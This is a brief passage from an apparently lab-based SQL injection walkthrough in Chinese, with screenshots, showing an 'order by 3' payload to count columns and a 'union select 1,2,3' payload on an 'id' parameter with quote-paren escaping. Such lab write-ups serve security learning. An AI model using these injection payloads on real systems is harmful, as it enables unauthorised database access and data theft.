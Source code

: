 - ![image-20220814233456272](assets/image-20220814233456272.png)

- 构造以下payload测试

- ```
  id=1') order by 3 --+
  ```

  

- ![image-20220814233538159](assets/image-20220814233538159.png)

- 发现有3个字段

- 构造union联合语句,需要注意将前一个select语句中的1修改为不存在的数值使其报错才能回显第二个select语句

- ```
  id=@') union select 1,2,3 --+
  ```

  

